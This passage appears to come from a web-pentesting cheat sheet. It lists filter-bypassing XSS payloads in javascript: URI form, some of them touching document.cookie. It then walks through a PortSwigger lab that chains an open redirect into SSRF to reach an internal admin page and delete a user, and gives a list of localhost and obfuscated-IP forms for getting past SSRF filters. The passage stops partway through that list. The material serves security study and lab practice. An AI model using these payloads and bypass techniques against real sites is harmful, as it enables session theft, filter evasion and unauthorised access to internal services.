     javascript://https://whitelisted.com/?z=%0Aalert(1)
    javascript:prompt(1)
    jaVAscript://whitelisted.com//%0d%0aalert(1);//
    javascript://whitelisted.com?%a0alert%281%29
    /x:1/:///%01javascript:alert(document.cookie)/
    ";alert(0);//
    %26%2302java%26%23115cript:alert(document.domain)
    javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.domain
    javascript:alert(1)
    javascript:%61lert(1)
    javascript:&#37&#54&#49lert(1)
    javascript:%26%2337%26%2354%26%2349lert(1)
    javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie
    ```
    
- **Open Redirect to SSRF**
    
    - [Lab: SSRF with filter bypass via open redirection vulnerability | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
        
        1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
        2. Try tampering with the `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
        3. Click "next product" and observe that the `path` parameter is placed into the Location header of a redirection response, resulting in an open redirection.
        4. Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the `stockApi` parameter on the stock checker:`/product/nextProduct?path=http://192.168.0.12:8080/admin`
        5. Observe that the stock checker follows the redirection and shows you the admin page.
        6. Amend the path to delete the target user:`/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
    - **Redirect to localhost or arbitrary domains**
        
        ```bash
        # Localhost
        <http://127.0.0.1:80>
        <http://127.0.0.1:443>
        <http://127.0.0.1:22>
        <http://127.1:80>
        <http://127.000000000000000.1>
        <http://0>
        http:@0/ --> <http://localhost/>
        <http://0.0.0.0:80>
        <http://localhost:80>
        http://[::]:80/
        http://[::]:25/ SMTP
        http://[::]:3128/ Squid
        http://[0000::1]:80/
        http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
        <http://①②⑦.⓪.⓪.⓪>
        